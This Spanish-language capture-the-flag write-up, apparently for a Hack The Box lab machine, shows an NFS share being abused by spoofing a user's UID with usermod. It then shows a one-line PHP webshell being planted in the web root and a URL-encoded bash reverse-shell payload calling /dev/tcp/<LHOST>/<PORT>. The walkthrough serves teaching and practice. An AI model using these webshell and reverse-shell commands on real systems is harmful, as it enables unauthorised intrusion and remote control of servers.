 Bien, parece que solo tienen permisos los usuarios con **UID** `2017` o grupo `www-data`, de nuevo, como NFS no comprueba los usuarios entre máquinas, podemos cambiarle el UID a nuestro usuario ya existente `pepe` con el comando `usermod`:
```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ sudo usermod -u 2017 pepe
```

Ahora ya podemos acceder al directorio:
```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ sudo -u pepe bash
┌─[pepe@z3r0byte]─[/home/z3r0byte/Descargas]
└──╼ $ cd webserver/
┌─[pepe@z3r0byte]─[/home/z3r0byte/Descargas/webserver]
└──╼ $ ls 
css  images  index.html  js
```

#### Getting access

Como parece que estamos en el directorio raiz del servidor web que vimos anteriormente, podemos crear un archivo e intentar obtenerlo desde el servidor web:
```bash
┌─[pepe@z3r0byte]─[/home/z3r0byte/Descargas/webserver]
└──╼ $ echo "z3r0byte was here" > secret.txt
┌─[pepe@z3r0byte]─[/home/z3r0byte/Descargas/webserver]
└──╼ $ curl -s  10.10.11.191/secret.txt
z3r0byte was here
```

Vemos que si podemos acceder, asi que pruebo a incluir una `webshell` en **PHP** para ver si podemos ejecutar comandos:
```bash
┌─[pepe@z3r0byte]─[/home/z3r0byte/Descargas/webserver]
└──╼ $ echo '<?=`$_GET[_]`?>' > shell.php
┌─[pepe@z3r0byte]─[/home/z3r0byte/Descargas/webserver]
└──╼ $ curl 10.10.11.191/shell.php?_=id
uid=2017(alex) gid=2017(alex) groups=2017(alex)
```

¡Tenemos ejecución de comandos!
Ahora lo que quedaría sería obtener una reverse shell y ver la flag **user.txt**:

![image](https://github.com/z3rObyte/z3rObyte.github.io/assets/67548295/3ff59de8-bd68-4539-ab8d-e254e2c791af)

> payload: `curl '10.10.11.191/shell.php?_=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<LHOST>%2F<PORT>%200%3E%261%22'` (recuerda poner tu LHOST, LPORT y borrar los placeholders `<>`)

Obtenemos la shell y podríamos ver la flag **user.txt** en `/home/alex/user.txt`:
```bash
alex@squashed:/var/www/html$ head -c 15 /home/alex/user.txt ; echo # Mostramos solo los 15 primeros carácteres
7c73ef32c6f5fee
```
